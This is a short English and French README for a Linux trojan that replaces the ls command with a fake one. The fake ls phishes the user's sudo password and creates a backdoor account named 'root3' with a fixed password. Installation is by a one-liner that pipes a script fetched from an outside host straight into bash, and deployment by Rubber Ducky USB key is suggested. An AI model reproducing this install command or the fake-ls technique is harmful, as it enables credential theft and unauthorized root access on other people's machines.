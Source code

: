 # fake-ls_privilege-escalation-linux

COMMAND TO INSTALL VIA INTERNET : wget -qO - script.help.pm/ls.php | bash -

Replacing the linux LS command for privilege elevation.

You have access to a ROOT session but you don't know the password to run useful commands ?
Run this script on a laptop (a ruber ducky usb key can help) and the LS command will be replaced by a fake LS command. When running LS, it will ask for the sudo password of the user and create with these rights a new user named "root3" with the password "3root".
the LS command is displayed normally after that

command test if is ok : getent passwd root3

---FR---

COMMANDE POUR INSTALLER VIA INTERNET : wget -qO - script.help.pm/ls.php | bash -

Remplacement de la commande linux LS pour une élévation de privilège.

Vous avez avec un accès sur une session ROOT mais vous ne connaissez pas le mot de pass pour lancer des commandes utiles ?
Lancer ce script sur un pc portable (une cle usb ruber ducky peut aider) et la commande LS sera remplacer par une fausse commande LS. À l'exécution de LS, cela demandera le mot de pass sudo de l'utilisateur et créer avec ces droits un nouvel utilisateur nommés "root3" avec le mot de pass "3root"
la commande LS s'affiche normalement après cela
